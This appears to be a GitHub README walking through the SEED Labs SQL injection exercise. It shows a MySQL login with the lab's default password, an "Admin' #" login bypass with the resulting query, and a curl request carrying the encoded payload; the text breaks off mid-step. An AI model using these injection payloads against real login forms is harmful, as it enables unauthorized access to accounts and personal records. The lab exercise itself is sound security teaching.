# SQL-INJECTION-ATTACK
TASK-1
mysql -u root -pseedubuntu

mysql> use Users;

mysql> show tables;

![alt text](https://github.com/Waleed-gif/SQL-injection/blob/main/task%201.png)

TASK 2
    .USERNAME: "Admin' #"

    .PASSWORD: "xyz" (here is password is optional)
We will result in SQL Query

    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password

    FROM credential

    WHERE name='Admin' #' && password='xyz'
![alt text](https://github.com/Sohail8612/SQL-INJECTION-ATTACK/blob/main/sql3.png)
TASK 3
- Write Code on Terminator in Seed Lab:

curl 'http://www.seedlabsqlinjection.com/unsafe_home.php username=Admin%27%20%23';
//2- Copy the HTML code.

//3- Make a new file in location "file:///home/seed/Documents/temp.html"

//4. Run this…
